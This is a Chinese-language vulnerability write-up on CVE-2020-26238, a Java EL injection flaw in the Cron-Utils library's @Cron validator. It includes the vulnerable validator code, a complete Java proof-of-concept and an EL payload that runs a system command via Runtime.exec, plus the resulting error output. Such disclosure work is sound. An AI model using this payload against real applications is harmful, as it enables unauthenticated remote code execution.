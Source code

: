 # CVE-2020-26238 Cron-Utils 远程代码执行(RCE)漏洞

Cron Utils是Jmrozanec个人开发者的一个用于验证、解析、迁移 Cron 表达式的Java代码库。

Cron-utils 9.1.3之前版本存在注入漏洞，攻击者可利用该漏洞能够注入任意的Java EL表达式，从而导致未经身份验证的远程代码执行(RCE)漏洞。只有使用@Cron注释验证不可信Cron表达式的项目才会受到影响。

远程执行代码-JavaEL注入

如果开发人员使用@Cron注释来验证用户控制的Cron表达式，则攻击者将能够注入和运行任意Java表达式语言（EL）表达式。

Cron-Utils使用Java Bean验证（JSR 380）自定义约束验证器，例如CronValidator。构建自定义约束违反错误消息时，重要的是要了解它们支持不同类型的插值，包括Java EL表达式。因此，如果攻击者可以将任意数据注入传递给ConstraintValidatorContext.buildConstraintViolationWithTemplate（）的错误消息模板中，则他们将能够运行任意Java代码。不幸的是，通常将经过验证的（因此通常是不可信任的）Bean属性流入自定义错误消息中。在这种情况下，如果在解析表达式时抛出异常，则CronValidator会在自定义约束错误验证消息中包含正在验证的Cron表达式：

```java
public boolean isValid(String value, ConstraintValidatorContext context) {
    if (value == null) {
        return true;
    }

    CronDefinition cronDefinition = CronDefinitionBuilder.instanceDefinitionFor(type);
    CronParser cronParser = new CronParser(cronDefinition);
    try {
        cronParser.parse(value).validate();
        return true;
    } catch (IllegalArgumentException e) {
        context.disableDefaultConstraintViolation();
        context.buildConstraintViolationWithTemplate(e.getMessage()).addConstraintViolation();
        return false;
    }
}
```

**PoC:**

复现漏洞，可以使用以下测试代码：

```java
import com.cronutils.validation.Cron;
import com.cronutils.model.CronType;
import java.util.Set;
import javax.validation.ConstraintViolation;
import javax.validation.Validation;
import javax.validation.Validator;
import javax.validation.ValidatorFactory;

public class Main {

  public static class Job {
    @Cron(type = CronType.SPRING)
    private String cronExpression;

    String getCronExpression() {
      return cronExpression;
    }

    void setCronExpression(String cronExpression) {
      this.cronExpression = cronExpression;
    }
  }

  public static void main(String[] args) {
    Job job = new Job();
    job.setCronExpression("java.lang.Runtime.getRuntime().exec('touch /tmp/pwned'); // 4 5 [${''.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('js').eval(validatedValue)}]");

    ValidatorFactory factory = Validation.buildDefaultValidatorFactory();
    Validator validator = factory.getValidator();

    Set<ConstraintViolation<Job>> constraintViolations = validator.validate(job);
    String errmsg = constraintViolations.iterator().next().getMessage();
    System.out.println(errmsg);
  }
}
```

如果使用cron-utils的@Cron批注来验证用户控制的表达式，它将使攻击者能够执行任意Java代码。

为了触发异常并使有效载荷保持小写并允许空白，我们需要使用以下形式的有效载荷：

```
java.lang.Runtime.getRuntime().exec('touch /tmp/pwned'); // 4 5 [${''.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('js').eval(validatedValue)}]");
```

cron字段：

```
java.lang.Runtime.getRuntime().exec('touch
/tmp/pwned');
//
4
5
[${''.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('js').eval(validatedValue)}]");
```

这将导致异常，例如：


```
Failed to parse 'java.lang.Runtime.getRuntime().exec('touch /tmp/pwned'); // 4 5 [java.lang.UNIXProcess@28a53635]'. Invalid chars in expression! Expression: JAVA.LANG.RUNTIME.GETRUNTIME().EXEC('TOUCH Invalid chars: JAVA.LANG.RUNTIME.GETRUNTIME().EXEC('TOUCH
```

ref：

* https://github.com/jmrozanec/cron-utils/issues/461
* https://securityboulevard.com/2020/12/cve-2020-26238-cron-utils-remote-code-exploitation/
* https://securitylab.github.com/advisories/GHSL-2020-212-cron-utils-ssti/
* https://forum.ywhack.com/thread-114842-1-2.html